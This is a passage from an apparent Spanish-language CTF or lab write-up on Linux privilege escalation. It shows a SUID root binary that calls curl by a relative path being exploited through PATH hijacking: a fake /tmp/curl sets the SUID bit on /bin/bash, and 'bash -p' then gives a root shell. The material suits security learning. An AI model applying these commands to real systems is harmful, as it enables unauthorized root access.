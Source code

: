 ```js
/bin/fusermount
/bin/mount
/bin/ping
/bin/su
/bin/ping6
```

- Vemos un binario poco común `"/usr/bin/menu"` el cual tiene como propietario a "root", lo ejecutamos para ver en que consiste y vemos que se nos despliega un menú con 3 opciones, si elegimos la primera vemos que en el output nos muestra la respuesta de la cabecera de una petición hecha con "curl".

- Si analizamos este binario con `"strings"` podemos confirmar que está ejecutando el comando "curl", y lo hace usando la ruta `relativa`, es decir, no está especificando la ruta absoluta del comando curl, sino que este busca a partir del PATH la ubicación de "curl" para posteriormente ejecutarlo.

- Podemos aprovecharnos de esto aplicando un `PATH HIJACKING`, para que nos tome el comando `curl` a un archivo creado por nosotros y lo ejecute como "root" (ya que el binario tiene permisos SUID y el propietario es root):


```bash
$ touch /tmp/curl
$ chmod +x /tmp/curl 
$ echo "chmod u+s /bin/bash" > /tmp/curl 
$ export PATH=/tmp:$PATH
```

- Hecho esto solo resta ejecutar el binario y elegir la opción 1 para que ejecute el comando curl que hemos creado y otorgue permisos SUID a la bash.

- Ejecutamos la bash con privilegios y seremos root y podremos leer las flags.

```bash
$bash -p
```

